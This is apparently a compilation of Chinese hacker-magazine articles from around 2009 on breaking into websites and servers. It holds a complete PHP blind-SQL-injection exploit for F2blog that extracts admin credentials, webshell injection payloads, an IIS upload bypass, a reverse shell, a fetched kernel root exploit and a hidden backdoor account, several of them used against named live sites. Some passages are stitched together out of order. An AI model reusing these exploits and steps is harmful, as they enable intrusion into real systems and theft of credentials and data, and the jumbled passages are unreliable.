从图 3 中我们可以看到，提交的数据没有写入进去，这是为什么呢？显示的访问时间是我们搭建好测试环境的时候。很多朋友可能在网上入侵时也碰到了类似的问题，不一定是网站把漏洞补丁了，因为我们访问这个网站时，如果是第一次访问，它会记录我们的 IP 地址，但是当我们用工具提交的时候，又没有把 IP 地址进行构造，所以数据就没有写入网站日志文件里。这里我们只要再把代理 IP 地址随便构造一下就行了，寂寞刺猬的这个 post 提交工具可以随便构造代理 IP 地址，我们再来构造数据重新提交一次，如图 4。


从图 4 中我们可以看到 x-forwarded-for 值写的 IP 地址就是我们随便构造的，点击“测试”后我们再来看一下日志文件的内容，一句话木马成功写入，图 5。

我们再来构造一个数据，把 IP 地址的值也换成一句话木马，如图 6。点击“测试”后，成功写入日志文件中，证明程序员对于这两个变量都没有进行过滤。接下来我们连接一下一句话木马，口令是 cmd，成功连接，如图 7。下面，就是上传大马了，这里就不说下去了。


在本地环境测试成功后，我们去网上看看效果。在 Google 里使用关键字“Web Stat Enabled”进行查询，只找到了 100 多个结果，这里的关键字大家可以按照自己的想法去构造。我们随便找一个能符合程序的判断呢？用户第一次访问这个网站，程序就会把用户信息写入日志文件里去。源码的注释也说得很清楚，当我们的访问 IP 地址改变后，就会进行写入操作。日志文件的格式为“2007-08-31.php”，这样我们就非常容易地知道它在 data 文件夹下 stat 目录里。下面，我们来测试一下漏洞。


结果来测试一下，在寂寞刺猬的这个 post 提交工具里填好构造好的数据，如图 8。

我们可以看到，返回信息里显示提交的数据已经成功写入网站日志文件里了。我们来访问一下日志文件，在 data 文件夹下的 stat 目录里，URL 地址是 `http://www.xx.com/music/data/stat/2009-11-13.php`，如图 9，连接成功。

接下来就是上传木马，提权拿服务器了，这些内容不在本文讨论的范围内，以后有空再给大家讲解吧，E-doo 音乐系统漏洞分析与利用到这里就结束了。


## 三、总结

E-doo 音乐系统漏洞主要是由于程序员以为用户不能随便修改 referer 值和 x-forwarded-for 值，这些值不在网站程序里提交，这样就安全了。程序员应该把任何可能的变量都做好过滤工作，前段时间还有个留言板漏洞，就是因为 x-forwarded-for 值没有做好过滤，用户可以构造一句话木马直接写入数据库。而留言板数据库默认又是 asa 后缀格式，没有做访问下载处理，用户写入一句话木马后，可以直接连接那些没有修改数据库路径的网站，拿到 webshell。

文章中使用的工具我会一起打包，如果有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

> 编辑点评：
>
> E-doo 音乐系统的这个漏洞产生的主要原因有 2 个，一个是过分相信用户提交的数据；还有就是将日志记录成 `.php` 文件，如此导致了可以任意构造相关数据，写入 PHP 的 log 中获取木马。

# F2blog Blind SQL Injection 0Day

从本文可以学到：

- 1. F2blog 漏洞的分析和利用
- 2. exp 的编写

废话少说，节约版面，直入主题。

测试目标：F2Blog v1.2 build 03.01  
本地环境：PHP5.2 apache2.2 ubuntu  
php.ini，magic_quotes_gpc=On register_globals=Off

打开根目录 `/include/function.php` 文件，代码如下：

```php
<?php
……省略……
function searchSQL($job, $seekname) {
    global $DMC, $DBPrefix, $settingInfo;
    $searchSql='';
    if ($seekname=="") {
        $job='';
    } else {
        $seekname=str_replace('&amp;', '&', @urldecode($seekname)); // urldecode() 函数引发的漏洞
    }
    switch($job){
        case "category":
            $searchSql="";
            $sql="select id from ".$DBPrefix."categories where parent='$seekname' or id='$seekname'"; // 被带入数据库
            if ($result=$DMC->fetchQueryAll($DMC->query($sql))) {
                $cateSql='';
                foreach($result as $key=>$value){
                    if (empty($cateSql)) {
                        $cateSql="cateId='".$value[id]."'";
                    } else {
                        $cateSql.=" or cateId='".$value[id]."'";
                    }
                }
                $searchSql=($key>0)?" and ($cateSql)":" and cateId";
                break;
            }
            ……省略……
        }
    }
    //echo $searchSql;
    return $searchSql;
}
……省略……
?>
```

根据 `urldecode()` 的函数特性，可以绕过 magic_quotes_gpc 提交单引号，并最终带入数据库查询。

我们提交 `http://127.0.0.1/f2blog/index.php?job=category&seekname=-12%2527`，出现错误如下：

数据库出错：

MySQL Query Error

Mysql error description: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '=12'' at line 1

Mysql error number: 1064

Date: 2009-11-11 16:18

Script: http://127.0.0.1/f2blog/index.php

SQL: code: select id from f2blog_categories where parent='12'' or id='12''

官方也存在此漏洞，提交 `http://www.f2blog.com/index.php?job=category&seekname=12%2527`，访问结果如图 1。


由于没有回显，我们只能构造盲注。在 MySQL 中构造注入语句如下：

```mysql
mysql> select id from f2blog_categories where parent='1' AND IF((ASCII
(SUBSTRING((SELECT username from f2blog_members limit 1,1),1,1))=97),
BENCHMARK(10000000,md5(1)),1);
Empty set (32.27 sec)

mysql> select id from f2blog_categories where parent='1' AND IF((ASCII
(SUBSTRING((SELECT username from f2blog_members limit 1,1),1,1))=98),
BENCHMARK(10000000,md5(1)),1);
Empty set (0.00 sec)
```

第一次提交时间为 32.27 sec，第二次为 0，由此我们构造用 GET 提交，并且用 `%23` 屏蔽后面的 SQL 语句，代码如下：

```text
http://127.0.0.1/f2blog/index.php?job=category&seekname=1%2527AND%20IF%28ASCII%28SUBSTRING%28%20SELECT%20username%20from%20f2blog_members%20limit%201%2C1%29%29=97%29,BENCHMARK%2810000000,md5%281%29%29,1%29%23
```

根据数据库两次执行时间的不同写出 exp，代码如下：

```php
<?php
#!/usr/bin/php
print_r('');
+--------------------------------------+
| F2blog and F2cont Blind SQL Injection Exploit |
| author: menzhi007 |
| mail: menzhi007 at 163 dot com |
| blog: http://hi.baidu.com/menzhi007 |
+--------------------------------------+

if ($argc < 3) {
    print_r('');
}

+--------------------------------------+
| Usage: php $argv[0] host path |
| host: target server |
| path: install path |
| eg: php $argv[0] localhost /f2blog/ |
+--------------------------------------+

exit;
}
error_reporting(7);
ini_set('max_execution_time', '0');

$host = $argv[1];
$path = $argv[2];

$benchmark = 1000000;
$timeout = 10;
$pre = 'f2blog_';

$j = 1;
$user = '';
$hash[0] = 0;
$hash = array_merge($hash, range(48, 57));
$hash = array_merge($hash, range(97, 122));
echo "Please Waiting... \nUsername:\n";
while (strlen($user) < 20) {
    for ($i = 0; $i <= 255; $i++) {
        if (in_array($i, $hash)) {
            $cmd = " %2527%20AND%20IF((ASCII(SUBSTRING(( SELECT%20username%20from%20".$pre."members%20limit%20$j,1),1,1))=$i), BENCHMARK(".$benchmark.", md5(1)),1)%23";
            send();
            usleep(100000);
            $starttime = time();
            send();
            $endtime = time();
            $difftime = $endtime - $starttime;
            echo "\r\n$difftime\r\n";
            if ($difftime > $timeout) {
                $user .= chr($i);
                break;
            }
        }
        if ($i == 255) {
            exit("\nExploit Failed!\n");
        }
    }
    $j++;
}

$j = 1;
$pass = '';
$hash[0] = 0;
$hash = array_merge($hash, range(48, 57));
$hash = array_merge($hash, range(97, 122));
echo "Please Waiting... \nPassword:\n";
while (strlen($pass) < 32) {
    for ($i = 0; $i <= 255; $i++) {
        if (in_array($i, $hash)) {
            $cmd = " %2527%20AND%20IF((ASCII(SUBSTRING(( SELECT%20password%20from%20".$pre."members%20limit%20$j,1),$j,1))=$i), BENCHMARK(".$benchmark.", md5(1)),1)%23";
            send();
            usleep(100000);
            $starttime = time();
            send();
            $endtime = time();
            $difftime = $endtime - $starttime;
            echo "\r\n$difftime\r\n";
            if ($difftime > $timeout) {
                $pass .= chr($i);
                break;
            }
        }
        if ($i == 255) {
            exit("\nExploit Failed!\n");
        }
    }
    $j++;
}
exit("\nExploit Success!\nUsername Is: {$user}\nPassword Hash Is: \t$pass\nEnjoy it!");

function send(){
    global $host, $path, $cmd;

    $data = "GET ".$path."index.php?job=category&seekname=!".$cmd." HTTP/1.1\r\n";
    $data .= "Host: $host\r\n";
    $data .= "Connection: Close\r\n\r\n";
    print_r($data);
    $fp = fsockopen($host, 80);
    fputs($fp, $data);
    $resp = '';
    while ($fp && !feof($fp)) {
        $resp .= fread($fp, 1024);
    }
    return $resp;
}
?>
```

也许对于 PHP 不太熟悉的朋友看着代码就头痛，大家只要把以上代码另存为 .php 文件即可利用。

> 编辑点评：
>
> 找到漏洞的原因，写出 exp，再写出漏洞分析和利用的步骤，这个漏洞就被我们征服了。文章作者用其出色的分析能力和编程功底为大家带来这篇 F2blog 的分析文章，很棒！

# 新云 CMS4.0 系统漏洞利用

从本文可以学到：

- 1. 新云 CMS 新闻洞分析
- 2. 漏洞的利用方法和步骤

看了这么久“黑手”，也想发点文章，于是就有了本篇。最近从网上看到了关于新云 CMS4.0 的漏洞，严格地说，也不算是什么漏洞，只是新云问吧默认的数据库文件 asa 没有做任何安全处理。

进入主题，我下载了新云 4.0sp2 的程序，发现默认的数据库文件名为 ask_newasp.resx，已经不能利用了，于是通过网络使用挖掘鸡 1.1 进行搜索，关键词为：**Powered By NewAsp CMS Version 4.0**，搜索结果如图 1。


我就以排在第一的那个 http://www.dnylf.cn 做测试，访问默认的数据库地址 http://www.dnylf.cn/ask/data/ask_newasp.asa，出现了如图 2 显示的乱码。

这就说明存在漏洞，直接去掉后面的 data/ask_newasp.asa 来到问吧的首页，之后点击“注册”，在注册表单中填写一句话木马。在我测试的这个站，注册码限制为：不超过 8 个汉字，或 16 个字符（数字、字母和下划线），这样在注册名中就不能使用经过转化的一句话木马，但是把木马写在个人简介里是可以的。注册过程我就不截图了，写入成功后，再访问数据库的默认地址，如图 3，在页面最下方会发现木马地址。


这就说明一句话已经成功写入，之后连接就可以了。如果大家还没有明白，可以看下录像，软件我也打包提供了。

最后说下修补方法，建议升级程序到 sp2 或者把问吧频道删除。网上有方法说修改路径，那样会暴露网站敏感信息，不建议使用。我在录像里测试的一个站点中发现了那个站把 ASK 目录设置了权限，我们是无法访问的，提示是 403，但是不影响我们注册。在网站地址后面直接加上注册地址就可以了，比如 ask/register.asp，呵呵，希望这不是修补漏洞，越修越漏！

> 编辑点评：当一个系统越来越大的时候，其漏洞就会在不经意间出现了，这个漏洞非常明显，虽然没有吸取新云之前积累的经验和教训。

# CreateLive CMS 4.2 注入漏洞分析

从本文可以学到：

- 1. CreateLive 漏洞分析
- 2. 漏洞的利用实战

官方介绍：《创力网站管理系统》是一个经过完善设计并适用于各种服务器环境的易用、安全、高效、快速、优秀的网站解决方案，可以随心所欲进行修改，方便建立具有自己特色的站点。适合政府、机关、团队、学校、企业、个人等建立网站。自 v1.0 发布以来，以安全快速驰名。

最近发现了本地某网站，发现使用的就是 CreateLive CMS，于是从站长那里下了一份 4.2+access 的代码。看过几个页面后，发现了一个注入漏洞，文件是 user/User_Cz.asp。在下面的 chkCzNum 函数中，CzNum 和 CzUser、Pass 没有过滤就被带入查询语句中，形成了注入漏洞。该漏洞不能使用注入工具猜解，主要的原因是有验证码和使用 POST 提交，相关代码如下：

```vb
Sub chkCzNum()
    Dim CzUser, Self, CzNum, Pass
    Dim sPoint, sMoney, sDayNum
    Dim sPointAll, sMoneyAll, sDayNumAll
    Dim rsUser, ChargeType
    CzUser = Trim(request("CzUser"))
    Self   = Trim(request("Self"))
    CzNum  = Trim(request("CzNum"))
``````asp
Pass = Trim(Request("Pass"))
if CzNum="" or Pass="" then
    Call Cl.OutMsg(0,"充值卡号或充值密码不能为空！","User_UserCz.asp")
end if
if Not Cl.CodeIsTrue(Trim(Request("ChkPlusCz")),"ChkPlusCz") then
    Call Cl.OutMsg(0,"验证码不正确！","User_UserCz.asp")
end if
CzNum = Cl.ReplaceBadChar(CzNum)
Pass = Cl.ReplaceBadChar(Pass)
dim rsCz
set rsCz = Server.CreateObject("Adodb.RecordSet")
OpenConn : rsCz.open "Select * from Cl_UserCz where CzNum='" & Cl.CheckStr(CzNum) & "' and Pass='" & Cl.CheckStr(Pass) & "'",Conn,1,3
if rsCz.bof and rsCz.eof then
    rsCz.close:set rsCz=Nothing
    Call Cl.OutMsg(0,"不存在此充值卡或密码错误，请重新输入！","User_UserCz.asp")
End If
if rsCz("IsUser")<>0 then
    rsCz.close:set rsCz=Nothing
    Call Cl.OutMsg(0,"该充值卡已被使用！","User_UserCz.asp")
end if
```

漏洞发现了就去实践一下。目标网站不能注册用户，我们重新找一个。在 Google 中搜索 inurl:User_UserCz.asp，发现还真有这样的网站，如图1。

因为 CreateLive CMS 已经有了自己的防注入文件，过滤了一些语句，不过该功能是自定义开启的，我就找了一个没有开启的，注册用户登录了进去，如图2。

在“充值卡充值”点击进入，在“充值卡号”填入注入语句就可以啦，然后点击“充值”按钮，如图3。

返回错误，可以确定数据库的类型是 MSSQL，如图4。

我分析了一下 Access 数据库的表名，发现有 cl_admin、cl_user 保存用户数据，cl_admin 是管理员的表，它的字段有 username、password。cl_user 是用户表，字段有 username 和 userpassword。

通过猜解，证明 MSSQL 中也存在这两个表，爆数据的语句是 `4' and 1=(select username from cl_user where userid=1);--`，爆出第一个用户的名字是 Admin，如图5。

利用 `5' and (select userpassword from cl_user where userid=1)=1;--` 获得 userid=1 的用户密码为 md5 散列，如图6。

在 cmd5 网站破解，居然要付费。同样，猜解管理员表获得管理员的用户名和密码散列，如图7、图8，但密码还是无法破解。管理页面使用 session 验证，cookies 欺骗行不通。

其实既然是 MSSQL 数据库，完全可以修改密码，或者插入新用户。的用户，但我实验后发现不能，具体原因我不知道。

修改密码的语句是：`5';update cl_admin set password='md5散列' where userid=1;--`，插入用户的语句是：`5' insert into cl_admin(username,password,purview) values ('seeyou','md5散列','1,4,4,4,4,4');--`，还可获得网站路径，然后 log 备份获得 shell。

但像我前面说的，CreateLive 有自己的防注入文件，select、update、insert 都会被截获，无法完成注入，如图9，为从别的网站注入时的情形。

至于绕过，各位看官应该有自己的想法，我实在不知道，呵呵。写完这些后，我去找了一下 CreateLive 的漏洞，发现还是蛮多的，基本都在 user 目录下，而且使用该系统的网站太少了，没有什么利用价值！

> 编辑点评：本文分析了一款不是很流行的系统 CreateLive，主要是其注射漏洞的分析和利用，技术不难。但是作者还是遗留了一些无法突破的地方，读者可以顺着这个思路继续深入下去。说句题外话，CMD5 这个大家用来破解 MD5 的网站竟然开始收费了，有点汗！

## IIS 文件解析漏洞3

助我轻松拿下报价服务网

□ rabbitsafe

注意看一下作者 rabbitsafe 的利用思路

大家好，最近工作太忙，好久没写文章了。今天上网，一个朋友发来一个网站，让我帮忙检测一下安全性，于是开始了一次渗透之旅！

## 一、踩点

这是一个专门提供各种 IT 产品报价的网站，有二手中心、下载中心、论坛和新闻中心等模块。首先看看论坛，用的是动网最新版 8.2，默认数据库和管理员账号都改了，没有利用的地方。接着又看了其他几个模块，好像有防注入系统，试了试 cookie 注入，也没有。

再来扫描下网站结构，这里用的是红狼安全小组的 wscan，扫描命令是 `wscan.exe -h www.xxx.com -p asp,txt`，如图1。

从图中我们可以看出，存在一个上传文件，这个文件和动感商城的上传文件很像。而且，eWebEditor 默认数据库路径也没改，不过其后台被删了。

LCX 最近陷入了一个怪圈，入侵每个站都觉得有相当的难度，而且有无从下手的感觉。另外，编程水平也上不去，老是在这个圈子里转。于是和同行交流了一下，部分人建议说要是精力不够，那专入侵就不要搞编程，搞编程就忽视入侵。要不你会把目光弄得两不顾。还有个建议，现在搞站要无所不用其极，别考虑先后顺序了，能想到什么方法就全部用上去。大家说得好像都有道理，至于读者和我有什么思考呢？

## 二、漏洞利用

现在我们就利用扫描出来的文件进行入侵吧！拿出明小子的 Domain，它有综合上传利用功能，包括动网上传、动力上传、动感购物上传、乔客上传等。

先用一下动感上传，没成功，难道漏洞补了？再试了其他几个上传漏洞，都没有成功。再分析扫描的文件，`Upfile_flash.asp` 是上传文件，应该还有一个 `upload_flash.asp` 文件。于是站点地址后面输入 `upload_flash.asp` 进行访问，结果如图2。

我们可以想办法先来抓包，然后改数据包，用 nc 上传一个后缀为 jpg 的 asp 小马文件，如图3，文件已经上传成功。然后我们把数据保存到 1.txt 文件里，并进行修改，如图4。

从图4中我们可以看出，路径可以自己修改。我们在 `1.asp` 后面加一个空格，然后用 winhex 把空格改成 `00`，再把 content-length 长度加上 6 后保存。接着用 nc 上传，结果还是失败。

上传程序把文件名统一都重命名为 jpg 文件，那我们可以想办法修改 filepath，结合 IIS 文件解析漏洞来上传文件。

IIS 解析漏洞：必须是在 IIS6 环境下，是一种文件解析漏洞。当直接上传 `xx.asp;xx.jpg` 格式的文件，上传后直接会以 asp 可执行文件格式打开。

打开刚才抓取的数据包，把 filepath 修改为 `bookpic/1.asp`，然后用数据包提交工具进行提交，如图5。

我们可以看到，文件已经成功上传，文件路径 `http://www.xxx.com/bookpic/1.asp;200910191024724568.jpg`，访问可以正常执行，如图6，已经成功获取 webshell 了。

## 三、总结

文章到这里就结束了，主要是讲解在渗透时遇到困难应该怎样想办法解决问题。微软的 IIS6 文件解析漏洞大家都很熟悉了，害了一大片网站，快抓紧时间利用哦，呵呵。如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。

> 【文章中所涉及的 webscan 和上传提交工具已收录在本期光盘】

**编辑点评：** kevin 发现这个漏洞后，有很多人投稿写这个东东，但是大部分都没有选上。为什么呢？因为文章都是写直接上传一个 `x.asp;x.jpg`，然后就结束，让人感觉到除了拾人牙慧之外根本没自己的创新。这篇文章不同，巧妙利用了路径修改和这个漏洞，思路让人眼前一亮。我在想，是不是动网上传还会存在这样的漏洞呢？没测试，呵呵。

# 拥有自己的 Linux 肉鸡

本文从 web 漏洞到 webshell，再反弹 shell 下载代码，进而溢出提权，最后添加 Linux 用户完全控制主机。思路还是比较清晰的，大家可以举一反三。

## 一、利用的 web 漏洞：php168 login.php 漏洞

搜索：去 Google、百度上搜索关键字：**Powered by PHP168**

V4.0 v5.0 Code 2003-07 PHP168CMS。

```php
login.php?makehtml=1&chdb[htmlname]=1.php&chdb[path]=cache&content=<?php @eval($_POST[cmd]);?>
```

利用：在网站地址后面加上上述参数，生成一句话链接页面：http://site.com/cache/1.php，用一句话木马客户端连接，如图1所示。

然后上传 `r57shell.php`，如图2所示。访问 `http://site.com/cache/r57shell.php`，得到 webshell，如图3所示。

## 二、反弹 shell

先在自己的机器上用 nc 监听一个端口，如图4所示。然后直接用 r57shell 的反弹 shell 功能，如图5所示。

什么方法，只要能达到目的就行。再来看看我们的 nc，已经有反应了，如图6、图7所示。

## 三、查看服务器的基本信息

用到的命令有 id、uname -a、ifconfig、netstat、lsb_release -a 等等，得到内核版本 2.6.18，是 Red Hat 操作系统，如图8所示。

下载溢出代码：Linux Kernel 2.4/2.6 sock_sendpage() Local Root Exploit，来自 www.milw0rm.com，大家可以去看看。下载命令：`wget http://milw0rm.com/sploits/2009-linux-sendpage3.tar.gz`，如图9所示。解压：`tar zxvf 2009-linux-sendpage3.tar.gz`，如图10所示。

`sendpage3.tar.gz`，如图10所示。切换到解压文件目录：`cd linux-sendpage3`。溢出：执行命令：`./run`，如图11所示，也可以自己编译 `exploit.c` 文件，编译命令是 `gcc -Wall -o exploit exploit.c`，然后执行 `./exploit` 也行。溢出后提示符就变成了 `#`，再看看我们的 id，已经是 root 了，呵呵，如图12所示。

## 四、添加用户

命令如下：

```bash
mkdir /home/.service
echo network::500:500::/home/.service:/bin/bash>>/etc/passwd
echo service::::::>>/etc/shadow
passwd service（设置用户密码）
```

接着可以 ssh 登录了（前提是服务开了 ssh），如图13所示。也可以在其他的 php 页面中加上一句话木马，给自己留个后门，或者装个 rootkit。

## 五、写点题外话

大家在入侵的时候要多收集信息，综合分析主机的信息是最重要的。另外，要学会自己尝试，自己创新，这样技能才能有所提高。黑客玩的是综合技能，只在一方面精通是不行的，大家有时间多去学习各种脚本编程，认识各类漏洞，编写 shellcode。自己多动手，得来的是自己的经验，也希望各位黑友遵守职业道德，不要胡乱删除别人的数据。

关于漏洞的修补问题，既然 php168v6.01 已经出来了，就请大家升级吧！Linux 内核补丁，官方网站已经提供了；大家可以去下载安装，重新启动就行了。有什么问题大家一起交流，一个人的成功不是最重要的，重要的是大家一起成功。呵呵，我是 spiderz，第一次投稿，写得不好，大家别见笑。

> 编辑点评：很完整的一篇文章，可以让不太懂 LINUX 的人照章操作。遗憾的是，作者没有写安装后门的过程，希望有读者能够抓住这个机会赚取稿费，呵呵。

# 超简单入侵

“XX 盛世”主机代理平台

从本文了解一种简单的基础入侵

大家都知道“XX 盛世”是一个提供主机合租的平台，今天我就给大家介绍一下怎么入侵它的代理平台。其实方法很简单，就是下载数据库！你可能会对我说，看过“黑手”的人都知道，有骗稿费的嫌疑。其实这是我的思维扩展，也是无意中发现的一个漏洞。

在“XX 盛世”上看主机报价，发现那里有代理系统，我就想：要是能拿到代理系统，不就能拿到许多 WEBSHELL 了么？我马上就把代理系统下载了回来，发现是 ASP 的数据库，MDB 在 Data 目录下。

我随便在 GOOGLE 上搜索了一个该系统特有的文件名 `yone_zhy.asp`，结果如图1所示。

嘿嘿，还真有用这个代理系统的，我就拿 `http://hezu.xxx.net/` 做演示吧。先下载数据库 `http://hezu.xxx.net/Data/mydata.mdb`，成功后打开，内容如图2所示。

数据库里总共 15 个会员，接下来就是破解了。我去 www.cmd5.com 成功破解出了 admind 的密码是：***097（密码前 3 位我用 * 代替），没有想到这么简单。成功登录到后台，不过没有什么用，我就不截图了。

主机是采用用户自主管理的，也就是说代理商没有什么实际的权限，只是代理出售空间。我破解了一个普通用户 133shopping 之后登录到代理平台，如图3所示。

点“管理”就会出现一个登录框，再登录一遍就会来到真正的管理平台，如图4所示。剩下的就是连接 FTP 了，想上传什么都可以了。

文章到此结束，虽然很简单但暴露的问题不简单。没想到这个代理商一点安全意识也没有，幸好买空间的不是太多。

**编辑点评：**
看过本文之后很多朋友肯定想去练手了。不然，现在网络上的主机空间提供者越来越多，服务及安全参差不齐，如何去发现，就靠悟性了。

# 对 XX 大学城市学院主站

的一次友情检测

复习一下 php 的常规注入吧

前几年我看到过“检测 XX 大学城市学院”的文章，最近没事，再看看它现在的安全性如何。文章技术含量不高，仅供比我还菜的菜鸟参考！

- 站点：http://www.xxx.edu.cn/
- 主站架构：PHP+MYSQL
- 服务器版本：Microsoft Windows [版本 5.2.3790]
- PHP 版本：5.1.1
- 此次检测发现漏洞主要针对 web 注射攻击

我从站点图片地址 `http://www.xxx.edu.cn/admin/upf/1252550655_1.jpg` 收集到信息，表明该站存在 admin 目录，但是却找不到后台文件。

尝试在站点寻找注入点，程序对许多的语句进行了过滤，用编码转换等方法都没有进展，一时陷入僵局。接着继续在主站上转，当访问 `http://www.zucc.edu.cn/view_vote.php?cat_id=15` 时，下意识地在最后加了个单引号，刷新后返回结果如图1。

哈哈，意识到找到一个注射点了，可惜没有报库。继续测试，用经典的 1=1 和 1=2 测试，前一个页面显示正常，后一个页面显示不正常，表明存在漏洞。用以下语句来判断版本：

```text
http://www.xxx.edu.cn/view_vote.php?cat_id=15/*/!50000%20*/
http://www.xxx.edu.cn/view_vote.php?cat_id=15/*/!60000%20*/
```

第一句报警，第二句正常，说明 mysql 版本是大于 5 而小于 6 的。提交 `http://www.xxx.edu.cn/view_vote.php?cat_id=15%20and%20ord(mid(user(),1,1))=114/*`，并未返回……

# 西线无战事


提交 `http://www.xxx.edu.cn/view_vote.php?cat_id=-15%20union%20select%201,2,3,4/*`，爆出字段“2”“3”“4”。字段爆出后，首先入手的方法当然是用 PHP 的内置函数来读取服务器的一些信息。本人不才，折腾了一番以后，并没有发现可以利用的地方。

由于并不是 root 权限，且没有爆出物理路径，用 `load_file()` 读取文件失败，所以尝试获取表名。提交 `http://www.zucc.edu.cn/view_vote.php?cat_id=-15%20union%20select%201,2,3,4%20from%20users/*`，返回正常，存在 users 这个表。继续获取列名，提交 `http://www.zucc.edu.cn/view_vote.php?cat_id=-15%20union%20select%201,2,username,password%20from%20users/*`，哈哈，列出了管理员账号和密码，密码是经过 MD5 加密的，通过在线解密网站得出密码为 XXXXXXXX（为保密，这里是用“X”代替）。

现在，我们需要找到管理后台进行登录。可是后台怎么找呢？我在主站上转悠和利用网络搜索，都没有找到。突然，想起了 robots.txt 文件，它用于控制搜索引擎的漫游器（网络蜘蛛）对网站的访问，而常常是这个文件，导致了网站信息的泄露。

于是我输入 `http://www.xxx.edu.cn/robots.txt` 进行访问，敏感信息出来了，如图2。

根据经验可以判断出 XXXXX 文件目录就是管理目录，用刚才获取到的管理员账号和密码登录，如图3。进入后台成功，接着就是拿 webshell 控制服务器，如图4。


后台可以采用普通上传和利用第三方组件 eWebEditor 进行上传的方法，我们上传一个 phpshell，出现提示如图5。

我猜测是因为网站系统对文件后缀进行了检测，于是采用 `1.jpg.php` 形式进行提交，但还是没有成功，估计可能也对文件内容进行了检测。我利用 gif89a 图片头欺骗方法，这次提示上传成功，终于拿到 webshell 了，如图6。


服务器的安全性不是十分的好，拿到了 webshell 便是 system 权限了。由于服务器处于内网，可通过 lcx 等进行端口转发控制服务器。到这里，整个检测目的已经达到，所以并没有进一步进行渗透。


正常页面，说明数据库的连接权限不是 root，这也是意料之中的事情。

用 `order by` 指令判断数据库字段数目，得出结果为 4 个字段。之前已经判断出 MySQL 版本是大于 5 而小于 6，所以可以采用联合查询（MySQL 4.0 以上才支持）。

```
http://www.xxx.edu.cn/view_vote.php?cat_id=-15%20union%20select%201,2,3,4/*
```

```
http://www.zucc.edu.cn/view_vote.php?cat_id=-15%20union%20select%201,2,3,4%20from%20users/*
```

**编辑点评：** 很常规的注入，我不说什么。


# 迂回战术在渗透中的应用

团马军

## 从本文可以学到：
- 迂回战术的思路
- 渗透实战分析

近几日已经是上次跳板机该消亡的时候，于是瞄准几个国家的大但网络发达的目标攻击下手。不一会儿，找到一个 ASPX+IIS6 的站点，有不少动态查询页面，但经过注入测试后发现其全面做过错误处理，因此思路转向后台。

在根目录后面直接输入一个 admin 后进行访问便出现了登录框，直接用 admin/admin 组合进入，可能是运气好，在添加产品上传图片的地方直接上传了一个 ASPX 的 webshell，如图1。

就这样，从开始攻击尝试到获得 webshell 不到 10 分钟。这个叫做 aspxspy 的 webshell 在（http://www.rootkit.net.cn）可以下载，我使用的是最新的 2.0 版，里面相比之前的版本增加了“指定文件和文件内容搜索”以及“端口映射”等功能，相当实用。

由于我对 ASPX+IIS6 这种架构的网站有一定的渗透经验，所以脑中很快便出现当前用户的权限。如果没有特殊状况，必然是“network service”，更细致一点来说，可以做的事情稍微比 ASP 脚本解释器的用户“IUSER_机器名”多一点点。

所以直接先翻看网站根目录下的站点配置文件 web.config，如图2，目的是想获取当前网站的数据库连接信息，比如用户和密码，以及数据库服务器的 IP 等。

图2中显示的数据库服务器就是本机，而用户为 sa，不仅如此，密码还为空！没那么幸运吧？抱着试一试的心态直接用 aspxspy 中的“database”功能连接数据库，果然失败，似乎是骗人的。不管它，直接执行命令来确认一下，如图3。

这下我们知道了这台服务器的主机名为 dotnet2005，而通过 path 变量，我们几乎可以确定该服务器并没有安装 MSSQL，但是却安装有著名的远程管理软件 pcAnywhere。

既然接下来的任务是提权，那就要先尽可能多地了解该服务器上所安装的第三方软件，所开启的服务，以及系统补丁安装情况。

首先看一下 IP，命令：`ipconfig /all`，回显如下：

```text
Windows IP Configuration
Host Name . . . . . . . . . . . . : dotnet2005
Ethernet adapter 192.168.1.164:
Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
Physical Address. . . . . . . . . : 00-11-25-AC-A7-B7
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 192.168.1.164
Subnet Mask . . . . . . . . . . . : 255.255.255.224
Default Gateway . . . . . . . . . :

Ethernet adapter 203.*.*.164:
Description . . . . . . . . . . . : Intel(R) PRO/1000 CT Network Connection
Physical Address. . . . . . . . . : 00-11-25-AC-A7-B6
DHCP Enabled. . . . . . . . . . . : No
IP Address. . . . . . . . . . . . : 203.*.*.164
Subnet Mask . . . . . . . . . . . : 255.255.255.224
Default Gateway . . . . . . . . . : 203.*.*.161
```

这样就得知了该服务器具有一个内网 IP：192.168.1.164，而且没有划分域，估计有一个很小的工作组。那么既然这台服务器没有安装 MSSQL，它的网站必然会连接至数据库所在服务器，下面来看一下，如图4。


果不其然，看来没法用 MSSQL 对本机进行提权了，唯有考虑别的办法。先来确定一下我们想要的东西——终端服务，结果如图5。


3389 端口监听着呢，只是不知道服务器是否有设置过 IPsec 或者外围有硬件防火墙。先扫描一下端口，使用“nmap -v -sV 203.*.*.164”，结果如图6。

看来 3389 被 IPsec 或防火墙挡住了，而 pcAnywhere 的端口 5631 也同样如此。来看一下它开启的服务有哪些，以下是我认为比较重要的服务，并且做了注释：

## 注释：
- Automatic Updates ——> 自动更新，看来补丁应该打得比较全
- FileZilla Server FTP Server. ——> 近几年相当流行的 FTP 服务器软件，还没出什么溢出漏洞
- IBM Director Agent SLP Attributes ——> 看来是 IBM 系列的服务器
- IBM Director Agent WMI CIM Server
- pcAnywhere 的服务
- Print Spooler —— 打印服务
- Remote Registry —— 远程注册表
- Simple Mail Transfer Protocol (SMTP) —— 微软自带的邮件服务器
- SNMP Service
- SNMP Trap Service
- Symantec AntiVirus —— 赛门铁克杀毒软件，看来上传工具得小心点
- Symantec AntiVirus Definition Watcher
- Symantec Event Manager
- Symantec Settings Manager
- Task Scheduler —— 任务计划，实在不行就添加一个东西到这里
- Terminal Server Licensing —— 终端 3389
- Terminal Services
- Windows Defender —— 微软推出的免费杀毒软件，Server 2008 里自带
- Windows Firewall/Internet Connection Sharing (ICS) —— ICS，看来配了 VPN，得先关它

# 西线无战事


该服务器并没有开启 IPsec，同时开启终端服务和 pcAnywhere，本地没有安装 MSSQL。

下面来思考一下当前的环境：硬防不怕，可以进行端口映射，可是无法执行系统命令添加用户，提权有点困难。不过也不是没有办法，如果管理员对某些文件的权限没有设置好，我们可以采用把“粘滞键”替换，或者往启动项放一个添加用户的批处理方法，只是相对来说麻烦一点。


